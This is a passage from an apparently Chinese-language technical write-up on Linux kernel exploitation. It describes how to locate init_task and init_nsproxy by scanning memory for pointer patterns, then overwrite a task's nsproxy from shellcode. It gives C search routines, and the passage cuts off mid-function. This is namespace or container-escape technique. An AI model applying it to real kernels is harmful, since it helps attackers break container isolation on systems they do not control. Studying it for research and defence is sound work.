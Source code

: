 

因此，理论上，通过偏移我们是能够顺着 init_pid_ns 找到 init_nsproxy 的地址的。

但，这只是理论上。

从 init_pid_ns 摸到 init_task 没啥大问题，struct pid_namespace 基本不会发生代码变动，因此指针偏移可以认为不变。但从 struct task_struct 摸到 init_nsproxy 如果也直接通过偏移找就太不靠谱了，因为 struct task_struct 在不同版本间经常变动，且在同一版本中也会受不同编译参数的影响而发生变化。因此这里我依然打算通过指针间的特征来找。



首先是从init_pid_ns 寻找 init_task。所用的逻辑特征是 init_pid_ns 中存在一个指针p1，将其视为task_struct，其中包含自身地址p1。

```c
#define pid_namespace_approx_size (0xa0)
#define task_struct_approx_size (0x3000)
static char *find_init_task(char *init_pid_ns) {
    for (size_t *pos = init_pid_ns; pos < init_pid_ns + pid_namespace_approx_size; pos++) {
        size_t may_ptr = *pos;
        if ((may_ptr & 0xffff000000000000) != 0xffff000000000000) {
            continue;
        }

        char *may_task = (char *)may_ptr;
        // check task
        for (size_t *pos2 = may_task; pos2 < may_task + task_struct_approx_size; pos2++) {
            if (*pos2 == may_task) {
                return may_task;
            }
        }
    }
    return 0;
}
```



从 init_task 找到 init_nsproxy的逻辑特征为 init_task 中存在一个指针p1，其不等于 init_task 自身，将其视为nsproxy，其中同时存在 init_pid_ns 和 init_uts_ns 两个指针。且通过这个特征可以得知nsproxy在task_struct中所在偏移，之后便可以通过shellcode直接对目标task struct的nsproxy进行修改。

```c
#define nsproxy_approx_size (0x60)
static char *find_init_nsproxy(char *init_pid_ns, char *init_uts_ns, size_t *nsproxy_offset) {
    char *init_task = find_init_task(init_pid_ns);
    if (!init_task) {
        return 0;
    }

    // find init_nsproxy in init_task
    for (size_t *pos = init_task; pos < init_task + task_struct_approx_size; pos++) {
        size_t may_ptr = *pos;
        if ((may_ptr & 0xffff000000000000) != 0xffff000000000000) {
            continue;
        }
        if (may_ptr == init_task) {
            continue;
        }

        // guess init_nsproxy
        char *may_nsproxy = may_ptr;
        int has_pid_ns = 0;
        int has_uts_ns = 0;
        for (size_t *pos2 = may_nsproxy; pos2 < may_nsproxy + nsproxy_approx_size; pos2++) {
            size_t may_ptr2 = *pos2;
            if (may_ptr2 == init_pid_ns) {
                has_pid_ns = 1;
            }
            if (may_ptr2 == init_uts_ns) {
```